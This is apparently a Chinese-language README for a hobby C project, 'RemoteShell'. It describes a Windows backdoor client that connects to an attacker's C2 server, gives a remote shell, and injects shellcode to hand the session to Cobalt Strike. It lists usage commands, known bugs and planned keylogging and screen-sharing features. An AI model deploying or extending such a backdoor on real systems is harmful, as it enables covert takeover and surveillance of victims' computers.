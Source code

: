 # RemoteShell
这个项目是我学习C的windowsAPI和网络编程时完成的一个小项目。 在客户端上运行后门之后，服务器上的攻击者可以获得客户端计算机的shell并执行命令,同时可以将该shell派生至Cobalt Strike进行后利用。

## Usage

**C2Client:**

```
C2Client.exe 192.168.1.2             #192.168.1.2为服务端ip
```

**C2Server:**

```
C2Server.exe
```

连接后如下图所示，左图为服务端(控制端)，右图为客户端。

![](1.png)

服务端输入shell进入服务端

![](2.png)

输入exit退出当前模式

![](3.png)

输入SpawnCS将shell派生至Cobalt Strike

这里要输入派生的shellcode长度和shellcode字符串，回车后在CS服务端即可收到弹回的shell，目前支持x86和x64位CS的shellcode。MSF的shellcode格式和CS不同，需要重新解析，后续会开发出来。

![](4.png)

![](5.png)

**PS:**

BUG1：该项目采用windows管道传输CreateProcess创建的进程的返回值，有些命令会产生一些bug(如net share等)。后续会修改shell执行的实现代码。

BUG2:在执行SpawnCS后想通过exit之后继续执行cmd的shell时会发现无法执行shell命令了，这是因为客户端的在执行CS的shellcode时执行了WaitForSingleObject(hThread, INFINITE)。所以会一直阻塞，后面准备把执行shellcode的一大块函数已一个线程启动，修改这个bug。

后续会考虑在项目中加入键盘监听、dll自加载、屏幕共享等功能。最近一边写python web一边写c有点顶不住......等稍微闲下来后会及时更新。

